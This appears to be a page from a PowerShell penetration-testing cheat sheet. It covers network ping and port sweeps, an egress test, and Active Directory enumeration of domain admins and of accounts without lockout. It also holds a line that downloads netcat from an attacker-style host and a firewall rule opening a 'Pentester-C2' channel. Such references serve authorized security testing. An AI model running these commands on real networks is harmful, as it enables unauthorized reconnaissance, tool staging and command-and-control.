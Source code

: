 ```PowerShell
 1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_ | Select-String ttl}
```

Port Sweeper

```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```

Sweep Range of IPs for Single Port

```PowerShell
foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}
```

Sweep IPs and Ports

```PowerShell
1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
```

Test Egress Filtering

```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open" } 2>$null
```

Display Domain Admins

```PowerShell
([adsisearcher]"(&(objectClass=User)(admincount=1))").FindAll().Properties.samaccountname
```

Display Accounts that Don't Lock Out

```PowerShell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=65536))"
```

Web Client to Download Files (eg NetCat)

```PowerShell
wget "http://10.10.10.10/nc.exe" -outfile "c:\nc.exe"
```

Get Firewall Rules

```PowerShell
Get-NetFirewallRule -all | Out-GridView
 Get-NetFirewallRule -all | Export-csv <file_path.csv>
```

Add Firewall Rule

```PowerShell
New-NetFirewallRule -Action Allow -DisplayName Pentester-C2 -RemoteAddress <IPADDR>
```

Generate CSV with User Info
